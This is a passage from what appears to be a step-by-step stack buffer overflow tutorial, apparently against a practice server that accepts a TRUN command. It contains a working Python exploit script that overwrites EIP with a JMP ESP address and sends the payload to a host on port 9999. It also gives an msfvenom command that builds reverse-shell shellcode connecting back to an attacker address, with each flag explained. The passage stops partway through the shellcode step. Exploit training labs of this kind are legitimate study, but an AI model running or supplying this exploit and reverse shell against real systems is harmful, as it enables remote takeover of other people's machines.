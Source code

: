 ### Payload
For example, if your offset is `2003` bytes and you have found a `JMP ESP` address (e.g., `625011af` in little-endian format becomes `\xaf\x11\x50\x62`), your payload looks like:

```python
#!/usr/bin/python
import sys, socket

payload = "A" * 2003 + "\xaf\x11\x50\x62"  # Overwrites EIP

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.1.90', 9999))
    s.send(('TRUN /.:/' + payload))
    s.close()
except:
    print("Error connecting to server")
    sys.exit()
```

### Little Endian Note

- **x86 (32-bit):** The processor stores the lowest-order byte at the lowest memory address. For example, the address `625011af` is sent as `\xaf\x11\x50\x62`.
- **x64 (64-bit):** The same little-endian ordering applies, but exploitation on x64 is more complex (e.g., you often use Return-Oriented Programming or other techniques rather than a simple `JMP ESP`).

### Notes
The 4-byte address must be reversed when written into your payload (e.g., `625011af` becomes `\xaf\x11\x50\x62`). This concept holds true for both x86 and x64, although exploitation techniques for 64-bit targets often require more advanced methods.

---

## Step 8. Generating Shellcode and Getting a Reverse Shell

### Objective
Create shellcode that avoids bad characters and, when executed, connects back to your machine to give you control.

### Generate Shellcode with msfvenom

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.131.1 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
```

#### Breakdown:
- `-p windows/shell_reverse_tcp`: Specifies the payload (a reverse shell).
- `LHOST & LPORT`: Your IP address and the port that will receive the connection.
- `EXITFUNC=thread`: How the payload should exit (improves stability).
- `-f c`: Output format as a C-style string.
- `-a x86`: Architecture (x86 in this example).
- `-b "\x00"`: Bad characters to avoid (at minimum, the null byte; add others as identified).
